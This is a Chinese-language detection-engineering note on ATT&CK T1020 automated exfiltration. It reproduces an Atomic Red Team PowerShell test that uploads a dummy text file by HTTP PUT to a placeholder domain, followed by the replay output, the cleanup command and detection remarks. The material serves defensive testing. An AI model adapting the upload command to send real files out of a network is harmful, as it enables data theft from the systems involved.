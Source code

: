 # T1020-win-自动渗出

## 来自ATT&CK的描述

攻击者可能会在收集期间通过使用自动处理来渗出数据，例如敏感文件。

当使用自动渗出时，其他渗出技术可能也适用于将信息转移出网络，如通过C2通道渗出和通过替代协议渗出。

## 测试案例

IcedID Botnet HTTP PUT

创建一个文本文件，试图通过带有ContentType Header的HTTP PUT方法上传到服务器上，删除一个创建的文件

攻击命令，请使用Powershell执行：

```yml
$fileName = "#{file}"
$url = "#{domain}"
$file = New-Item -Force $fileName -Value "This is ART IcedID Botnet Exfil Test"
$contentType = "application/octet-stream"
try {Invoke-WebRequest -Uri $url -Method Put -ContentType $contentType -InFile $fileName} catch{}
```

file：C:\Users\zhuli\Desktop\TevoraAutomatedRTGui\atomic-red-team-master\atomics\T1020\test.txt
domain：<https://google.com>

删除命令：

```yml
$fileName = "#{file}"
Remove-Item -Path $fileName -ErrorAction Ignore
```

## 检测日志

暂无，经过本地复现，Windows安全日志、Sysmon日志未记录到此命令的执行情况。实际上Windows Powershell日志可能会记录相关操作记录。

## 测试复现

### 测试1 IcedID Botnet HTTP PUT

```yml
PS C:\Users\zhuli> $fileName = "C:\Users\zhuli\Desktop\TevoraAutomatedRTGui\atomic-red-team-master\atomics\T1020\test.txt"
PS C:\Users\zhuli> $url = "https://google.com"
PS C:\Users\zhuli> $fileName = "C:\Users\zhuli\Desktop\TevoraAutomatedRTGui\atomic-red-team-master\atomics\T1020\test.txt"
PS C:\Users\zhuli> $url = "https://google.com"
PS C:\Users\zhuli> $file = New-Item -Force $fileName -Value "This is ART IcedID Botnet Exfil Test"
PS C:\Users\zhuli> $contentType = "application/octet-stream"
PS C:\Users\zhuli> try {Invoke-WebRequest -Uri $url -Method Put -ContentType $contentType -InFile $fileName} catch{}

PS C:\Users\zhuli> $fileName = "C:\Users\zhuli\Desktop\TevoraAutomatedRTGui\atomic-red-team-master\atomics\T1020\test.txt"
PS C:\Users\zhuli> Remove-Item -Path $fileName -ErrorAction Ignore
```

Windows Server 2019测试失败，根据报错信息来看，主要问题在domain位置。

## 日志留痕

暂无

## 检测规则/思路

### 建议

监控进程文件访问模式和网络行为。未被识别的进程或脚本如果看起来在遍历文件系统或发送网络流量，是很可疑的行为。

## 参考推荐

MITRE-ATT&CK-T1020

<https://attack.mitre.org/techniques/T1020>

Atomic-red-team-T1006

<https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1020>
